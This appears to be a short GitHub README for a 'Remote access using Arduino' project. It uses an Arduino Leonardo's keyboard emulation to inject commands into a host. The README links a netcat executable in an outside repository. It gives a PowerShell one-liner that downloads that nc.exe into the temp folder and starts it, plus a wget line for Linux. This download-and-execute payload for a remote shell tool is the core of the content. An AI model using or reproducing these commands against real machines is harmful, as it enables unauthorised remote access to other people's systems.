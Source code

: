 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```bash
For windows powershell: (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
linux: wget github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
